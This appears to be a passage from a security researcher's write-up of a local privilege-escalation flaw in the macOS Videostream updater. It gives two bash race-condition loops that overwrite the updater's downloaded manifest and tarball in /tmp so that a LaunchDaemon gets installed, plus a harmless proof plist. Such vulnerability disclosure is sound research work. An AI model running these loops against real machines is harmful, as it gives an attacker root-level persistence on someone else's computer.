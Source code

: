 ```bash
#!/bin/bash

echo '[+] Overriding manifest.json'

while [ ! -f /Library/LaunchDaemons/com.example.proof.plist ]
do
pgrep -f Videostream.update | xargs -I {} cp manifest.json /tmp/{}
done
```

This script will continuously attempt to extract the PID from the `Videostream.update` script and use the process ID as the name for the `manifest.json`. It will wait until the `Videostream` updater script runs and continuously try to use a race condition to override the downloaded file with our malicious `manifest.json`. Once it detects that our malicious LaunchDaemon was created, it stops.

Next, we’ll create the script that overrides the `videostream_0.5.0.tar.gz` with our malicious compressed file:

```bash
#!/bin/bash

echo '[+] Overriding the downloaded files...'

while [ ! -f /Library/LaunchDaemons/com.example.proof.plist ]
do
cp escalate.tar.gz /tmp/videostream_0.5.0.tar.gz
sleep 0.01
done

echo '[+] Done.'
```

Notice that both scripts will continuously copy the files into the new location, writing the file for the first time. The updater script will write into those files, maintaining the same permissions and allowing us to continue writing into those files, causing a race between us and the updater script.

We could either leave the scripts running and wait for the next update window, which will take less than 5 hours (remember that it runs the updater script every 5 hours or during boot), or extract the last time the script ran from the `Videostream` log (LaunchDaemon output file) and automatically trigger the script a minute before it launches (LaunchAgent, for example).

Once we let our scripts run and finish anticipating the fake update, we can see that our hard work paid off and our malicious LaunchDaemon was added:

![Proof of Exploit](https://danrevah.github.io/images/videostream/proof.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>Label</key>
    <string>com.example.proof</string>
    <key>ProgramArguments</key>
    <array>
      <string>touch</string>
      <string>/tmp/proof</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
  </dict>
</plist>
```
